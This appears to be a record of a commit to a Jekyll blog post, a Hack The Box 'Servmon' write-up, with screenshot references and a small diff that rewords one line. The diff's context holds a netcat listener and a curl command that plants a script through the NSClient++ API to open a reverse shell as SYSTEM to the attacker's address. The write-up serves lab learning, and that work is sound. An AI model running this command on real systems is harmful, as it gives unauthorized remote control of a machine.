

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-09-HTB-Servmon-Write-up.md, in a window 1280 px wide and 900 px high, scrolled down 11178 px. Shown: the whole window, without its empty margins (228-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2024-11-09-HTB-Servmon-Write-up.md

````diff
--- a/_posts/2024-11-09-HTB-Servmon-Write-up.md
+++ b/_posts/2024-11-09-HTB-Servmon-Write-up.md
@@ -358,7 +358,9 @@ Start nc listener on Kali:
 nc -lvnp 9001
 ```
 
-Run the command below to get a shell as system:
+Now we will create a script and schedule it through the API.
+
+Run the commands below to get a shell as system:
 
 ```shell
 curl -s -k -u admin -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/pwn.dat --data-binary "C:\Windows\Temp\nc64.exe 10.10.14.206 9001 -e cmd.exe"
````
